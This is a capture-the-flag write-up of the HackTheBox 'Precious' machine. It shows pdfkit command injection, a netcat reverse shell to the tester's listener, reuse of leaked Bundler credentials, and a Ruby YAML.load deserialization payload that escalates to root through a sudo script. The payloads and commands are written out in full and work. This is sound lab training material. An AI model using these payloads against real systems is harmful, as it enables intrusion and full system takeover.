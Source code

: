 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Precious](https://app.hackthebox.com/machines/Precious)

> [!tip]- Spoiler Summary
> This target is running a simple web app with a vulnerable version of `pdfkit`, which allows for a foothold. Lateral movement is possible via leaked credentials and password reuse. Privilege escalation is possible by exploiting Ruby's YAML library.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue Aug  6 15:03:38 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.11.189)
Host is up (0.092s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://precious.htb/ - no address for precious.htb

$ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

## RCE

![](_/htb-precious-20240806-3.png)

I spent some time hunting for an RCE vulnerability in "Phusion Passenger 6.0.15", but couldn't find anything.

But, I got code execution via a POST parameter:

```console
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://precious.htb
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
url=http%3A%2F%2F10.10.14.8%2Ffoo$(id)
```

This resulted in the following request to my web server:

```console
10.10.11.189 - - [06/Aug/2024 15:27:20] "GET /foouid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

My command options were limited via that vector. I was useful for recon (`cat /etc/passwd`, `cat /proc/self/environ`, and the like) but I couldn't use `>` redirection and many commands failed in ways I couldn't work around.

Eventually I realized that the web service was using a [vulnerable pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795), so passing an argument like the following was enough to get a reverse shell.

```text
http://example.htb/?name=#{'%20`busybox nc 10.10.14.8 443 -e sh`'}
```

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 40806
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral Movement

```ruby
ruby@precious:/opt$ cat update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

ruby@precious:/opt$ cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

```console
ruby@precious:/opt$ ls -l update_dependencies.rb sample/dependencies.yml
-rw-r--r-- 1 root root  26 Sep 22  2022 sample/dependencies.yml
-rwxr-xr-x 1 root root 848 Sep 25  2022 update_dependencies.rb
```

`ruby@precious:/var/www/pdfapp/app/controllers/pdf.rb`:

```ruby
class PdfControllers < Sinatra::Base
  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end
  get '/' do
    erb :'index'
  end
  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename
      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end
    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

Found creds for user `henry`:

```console
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su - henry
Password:
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

That config file comes from [Bundler](https://bundler.io/v1.12/man/bundle-config.1.html). In this case, the credentials have been reused for the local login on the target.

## Privilege Escalation

User `henry` has Sudo privileges on the previously discovered Ruby script:

```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

I know the script reads a file called `dependencies.rb` from the current working directory, so I should be able to modify that file to get a root shell somehow.

I found a nice post called [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). I adapted the payload [from here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).

Here's the working payload:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sh
         method_id: :resolve
```

```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Credits

- [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
